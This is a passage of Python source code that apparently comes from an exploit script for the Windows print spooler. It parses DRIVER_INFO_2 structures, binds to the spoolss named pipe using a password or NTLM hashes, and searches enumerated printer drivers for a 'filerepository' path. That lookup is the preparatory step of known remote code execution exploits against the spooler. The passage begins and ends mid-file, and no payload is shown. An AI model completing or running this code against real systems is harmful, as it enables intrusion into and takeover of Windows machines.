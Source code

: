 ```python
        ('EnvironmentOffset', '<L'),
        ('DriverPathOffset', '<L'),
        ('DataFileOffset', '<L'),
        ('ConfigFileOffset', '<L'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)
    
    def fromString(self, data, offset=0):
        Structure.fromString(self, data)
        self['ConfigFileArray'] = self.rawData[self['ConfigFileOffset']+offset:self['DataFileOffset']+offset].decode('utf-16-le')
        self['DataFileArray'] = self.rawData[self['DataFileOffset']+offset:self['DriverPathOffset']+offset].decode('utf-16-le')
        self['DriverPathArray'] = self.rawData[self['DriverPathOffset']+offset:self['EnvironmentOffset']+offset].decode('utf-16-le')
        self['EnvironmentArray'] = self.rawData[self['EnvironmentOffset']+offset:self['NameOffset']+offset].decode('utf-16-le')
        #self['NameArray'] = self.rawData[self['NameOffset']+offset:len(self.rawData)].decode('utf-16-le')

class DRIVER_INFO_2_ARRAY(Structure):
    def __init__(self, data = None, pcReturned = None):
        Structure.__init__(self, data = data)
        self['drivers'] = list()
        remaining = data
        if data is not None:
            for i in range(pcReturned):
                attr = DRIVER_INFO_2_BLOB(remaining)
                self['drivers'].append(attr)
                remaining = remaining[len(attr):]

def connect(username, password, domain, lmhash, nthash, address, port):
    binding = r'ncacn_np:{0}[\PIPE\spoolss]'.format(address)
    rpctransport = transport.DCERPCTransportFactory(binding)
    
    rpctransport.set_dport(port)
    rpctransport.setRemoteHost(address)
    
    if hasattr(rpctransport, 'set_credentials'):
        # This method exists only for selected protocol sequences.
        rpctransport.set_credentials(username, password, domain, lmhash, nthash)
    
    print("[*] Connecting to {0}".format(binding))
    try:
        dce = rpctransport.get_dce_rpc()
        dce.connect()
        dce.bind(rprn.MSRPC_UUID_RPRN)
    except:
        print("[-] Connection Failed")
        sys.exit(1)
    print("[+] Bind OK")
    return dce


def getDriver(dce, handle=NULL):
    #get drivers
    resp = rprn.hRpcEnumPrinterDrivers(dce, pName=handle, pEnvironment="Windows x64\x00", Level=2)
    blobs = DRIVER_INFO_2_ARRAY(b''.join(resp['pDrivers']), resp['pcReturned'])
    for i in blobs['drivers']:
        if "filerepository" in i['DriverPathArray'].lower():
            return i
```